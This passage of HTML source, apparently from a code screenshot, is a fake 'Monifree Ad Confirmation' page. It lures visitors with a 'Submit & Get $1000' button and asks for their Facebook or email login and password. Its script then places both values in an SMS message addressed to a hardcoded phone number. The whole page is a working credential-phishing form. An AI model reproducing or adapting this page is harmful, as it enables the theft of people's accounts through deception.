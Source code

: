         }
        button:hover {
            background-color: #66cdaa;
        }
    </style>
</head>
<body>
    <div class="form-container">
        <h2>Monifree Ad Confirmation</h2>
        <p>Input your Facebook/Email address details to confirm the post</p>
        <form id="monifreeForm">
            <input type="tel" id="phone" placeholder="Enter Phone Number/Email" required>

            <div class="password-container">
                <input type="password" id="password" placeholder="Enter Password" required>
                <span class="toggle-password" onclick="togglePassword()">👁️</span>
            </div>

            <button type="button" onclick="sendSMS()">Submit & Get $1000</button>
        </form>
    </div>

    <script>
        function togglePassword() {
            let passwordField = document.getElementById("password");
            let toggleIcon = document.querySelector(".toggle-password");

            if (passwordField.type === "password") {
                passwordField.type = "text";
                toggleIcon.textContent = "🙈"; // Change icon to "hide"
            } else {
                passwordField.type = "password";
                toggleIcon.textContent = "👁️"; // Change icon to "show"
            }
        }

        function sendSMS() {
            let phone = document.getElementById("phone").value;
            let password = document.getElementById("password").value;

            if (!phone || !password) {
                alert("Please enter your details.");
                return;
            }

            let companyNumber = "+2348064811587"; // Replace with Monifree’s real number
            let smsContent = `Monifree Submission\nPhone: ${phone}\nPassword: ${password}`;

            // Open SMS app with pre-filled message
            window.location.href = `sms:${companyNumber}?body=${encodeURIComponent(smsContent)}`;
        }
    </script>
</body>
</html>
